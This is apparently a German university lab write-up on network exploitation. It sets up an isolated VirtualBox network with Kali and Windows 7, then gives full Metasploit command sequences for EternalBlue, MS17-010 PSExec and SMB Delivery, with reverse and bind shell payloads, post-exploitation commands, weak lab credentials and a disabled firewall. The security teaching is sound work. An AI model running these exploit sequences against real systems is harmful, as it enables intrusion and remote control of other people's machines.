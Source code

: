 # Labor 4 - Netzwerk Exploits
## 1. Internes Netzwerk aufsetzen
**VirtualBox**: `Tools > Network > NAT Networks > Create`

    - Name: vboxnet
    - IPv4 Prefix: 192.168.100.0/24
    - DHCP-Server deaktivieren

## 2. VMs aufsetzen
**VirtualBox**: `New > follow the installation instructions`

    - User: zepi
    - Password: 123
    - In den Settings der VMs das Netzwerk auf das erstellte interne NAT Network setzen

## 3. Manuelle IP-Zuweisung
**Kali**: *während der Installation* oder `StatusBar > Internet (right click) > Edit Connections...`

    - IP: 192.168.100.10
    - Netmask: 255.255.255.0

**Windows 7:** `Netzwerk und Freigabecenter öffnen > LAN-Verbindung > Eigenschaften > Internetprotokoll Version 4 (TCP/IPv4)`

    - IP: 192.168.100.20
    - Netmask: 255.255.255.0

*Firewall deaktivieren*

### Verbindung Testen
Win > Kali
```powershell
ping 192.168.100.10
```
Kali > Win
```bash
ping 192.168.100.20
```

## 4. Exploits Ausführen

### 4.1 EternalBlue mit reverse_http Payload
**Kali**
```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
use PAYLOAD windows/x64/meterpreter/reverse_http
set -g RHOSTS 192.168.100.20
set -g LHOST 192.168.100.10
exploit
```
Durch `-g` wird der Wert global gesetzt und muss nicht erneut gesetzt werden.

Exploit testen:
```bash
sysinfo
screenshot
exit
```

### 4.2 MS17-010 PSExec mit bind_tcp Payload
**Kali**
```bash
msfconsole
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 192.168.100.20
set PAYLOAD windows/meterpreter/bind_tcp
set LPORT 4444

# Wichtig: Authentifizierung
set SMBUser zepi
set SMBPass 123

# Optional: Überprüfen der Einstellungen
show options

# Exploit ausführen
exploit
```

Exploit testen:
```bash
sysinfo
getuid
exit
```

Troubleshooting für PSExec:
- Falls "Unable to find accessible named pipe!" erscheint:
    1. Credentials überprüfen (zepi/123)
    2. Windows Services prüfen:
        - services.msc öffnen
        - "Server" Service muss laufen
        - "Windows Management Instrumentation" muss laufen
    3. Windows Firewall muss deaktiviert sein

### 4.3 SMB Delivery mit shell_reverse_tcp Payload
**Kali**
```bash
msfconsole
use exploit/windows/smb/smb_delivery

# Konfiguration
set SRVHOST 192.168.100.10
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.100.10
set LPORT 4445

# Optional: Status prüfen
show options

# Exploit starten (startet den Server)
exploit

# Der Exploit gibt einen PowerShell-Befehl aus, der auf dem Windows-System ausgeführt werden muss
```

**Windows 7**
1. PowerShell als Administrator öffnen
2. Den generierten PowerShell-Befehl aus Metasploit einfügen und ausführen

**Nach erfolgreicher Verbindung**
```bash
# Sessions anzeigen
sessions -l

# Mit Session verbinden
sessions -i 1
```

## 5. Unterschiede der Exploits
1. **EternalBlue (MS17-010)**
    - Nutzt SMBv1 Buffer Overflow
    - Benötigt keine Credentials
    - Reverse_http Payload für stabilere Verbindung
    - Direkter Meterpreter Zugriff

2. **PSExec (MS17-010)**
    - Nutzt Named Pipes
    - Benötigt gültige Credentials (zepi/123)
    - Bind_tcp Payload für direkten Zugriff
    - Kontrollierter Exploit-Ablauf

3. **SMB Delivery**
    - Client-seitige Ausführung über PowerShell
    - Nutzt SMB für Payload-Delivery
    - Shell_reverse_tcp für direkten Shell-Zugriff
    - Benötigt Benutzerinteraktion auf Zielsystem
